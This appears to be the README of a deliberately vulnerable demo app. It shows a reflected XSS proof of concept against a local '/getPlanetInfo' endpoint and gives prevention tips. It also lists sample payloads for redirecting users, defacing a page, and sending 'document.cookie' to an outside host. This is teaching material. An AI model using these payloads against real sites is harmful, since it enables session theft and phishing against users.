 ### This code is vulnerable to [XSS](https://portswigger.net/web-security/cross-site-scripting)

Vulnerable Endpoint: `/getPlanetInfo`

Exploit: 
```js
http://localhost:5000/getPlanetInfo?planet=<script>alert('XSS Attack')</script>
``` 

### What you can do with XSS?
- Steal Cookies and Session Information
- Redirect to malicious websites
- Modify website content
- Phishing
- Keylogging
- etc. 

### How to prevent XSS?
- Sanitize user input
- Use Content Security Policy (CSP)
- Use HttpOnly Cookies
- Use X-XSS-Protection header


### Here are some exploit examples:

#### Redirect to Phiting page using XSS 
```<script>   window.location.href = 'https://google.com'; </script>```

#### Get cookies 
```<script> window.location.href = 'https://google.com/?cookie=' + document.cookie; </script>```

#### Modify website content
You can inject any phising page / malicious page or any other content to the website using XSS.

```<script> document.body.innerHTML = '<h1>Website is hacked</h1>'; </script>```

 
```<iframe width="560" height="315" src="https://www.youtube.com/embed/dQw4w9WgXcQ" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe> ```
 